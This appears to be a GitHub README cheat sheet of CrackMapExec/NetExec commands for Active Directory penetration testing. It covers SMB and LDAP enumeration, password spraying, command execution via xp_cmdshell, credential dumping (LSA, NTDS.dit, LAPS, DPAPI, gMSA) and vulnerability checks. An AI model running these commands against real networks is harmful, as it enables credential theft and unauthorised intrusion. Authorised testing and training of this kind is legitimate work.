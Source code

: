 # cme-nxc-cheat-sheet
A cheat sheet for CrackMapExec and NetExec

**CrackMapExec:** https://github.com/byt3bl33d3r/CrackMapExec (no longer maintained)

**NetExec:** https://github.com/Pennyw0rth/NetExec

Installation: https://www.netexec.wiki/getting-started/installation

> The same commands for crackmapexec would also work for NetExec

> Other names: cme, nxc 
# Enumeration
## Initial Enumeration
```bash
crackmapexec smb target
```
## Null Authentication
```bash
crackmapexec smb target -u '' -p ''
```
## Guest Authentication
```bash
crackmapexec smb target -u 'guest' -p ''
```
## List Shares
```bash
crackmapexec smb target -u '' -p '' --shares
```
```bash
crackmapexec smb target -u username -p password --shares
```
## List Usernames
```bash
crackmapexec smb target -u '' -p '' --users
```
```bash
crackmapexec smb target -u '' -p '' --rid-brute
```
```bash
crackmapexec smb target -u username -p password --users
```
## Local Authentication
```bash
crackmapexec smb target -u username -p password --local-auth
```
## Using Kerberos
```bash
crackmapexec smb target -u username -p password -k
```
## Check for hosts that have SMB signing disabled
```bash
crackmapexec smb target(s) --gen-relay-list relay.txt
```
# Spraying
## Password Spray
```bash
crackmapexec smb target -u users.txt -p password --continue-on-success
```
```bash
crackmapexec smb target -u usernames.txt -p passwords.txt --no-bruteforce --continue-on-success
```
```bash
crackmapexec ssh target(s) -u username -p password --continue-on-success
```
# SMB
## Spider_plus Module
```bash
crackmapexec smb target -u username -p password -M spider_plus
```
```bash
crackmapexec smb target -u username -p password -M spider_plus -o READ_ONLY=false
```
## Dump a specific file
```bash
crackmapexec smb target -u username -p password -k --get-file target_file output_file --share sharename
```
# LDAP
## Enumerate users using ldap
```bash
crackmapexec ldap target -u '' -p '' --users
```
# MSSQL
## Authentication
```bash
crackmapexec mssql target -u username -p password
```
## Execute commands using `xp_cmdshell`
> -X for powershell and -x for cmd
```bash
crackmapexec mssql target -u username -p password -x command_to_execute
```
## Get a file
```bash
crackmapexec mssql target -u username -p password --get-file output_file target_file
```
# Secrets Dump
## Dump LSA secrets
```bash
crackmapexec smb target -u username -p password --local-auth --lsa
```
## gMSA
```bash
crackmapexec ldap target -u username -p password --gmsa-convert-id id
```
```bash
crackmapexec ldap domain -u username -p password --gmsa-decrypt-lsa gmsa_account
```
### Group Policy Preferences
```bash
crackmapexec smb target -u username -p password -M gpp_password
```
## Dump LAPS password
```bash
crackmapexec smb target -u username -p password --laps
```
## Dump dpapi credentials
```bash
crackmapexec smb target -u username -p password --laps --dpapi
```
## Dump NTDS.dit
```bash
crackmapexec smb target -u username -p password --ntds
```
# Asreproast
```bash
crackmapexec ldap target -u username -p password --asreproast asrep.txt
```
# Bloodhound
```bash
crackmapexec ldap target -u username -p password --bloodhound -ns ip --collection All
```
# Useful Modules
## Webdav
Checks whether the WebClient service is running on the target
```bash
crackmapexec smb ip -u username -p password -M webdav 
```
## Veeam
Extracts credentials from local Veeam SQL Database
```bash
crackmapexec smb target -u username -p password -M veeam
```
## ldap-checker
Checks whether LDAP signing and binding are required and/or enforced
```bash
cme ldap target -u username -p password -M ldap-checker
```
## Check if the DC is vulnerable to zerologon, petitpotam, nopac
```bash
crackmapexec smb target -u username -p password -M zerologon
```
```bash
crackmapexec smb target -u username -p password -M petitpotam
```
```bash
crackmapexec smb target -u username -p password -M nopac
```
## Check the MachineAccountQuota
```bash
crackmapexec ldap target -u username -p password -M maq
```
## ADCS Enumeration
```bash
crackmapexec ldap target -u username -p password -M adcs
```
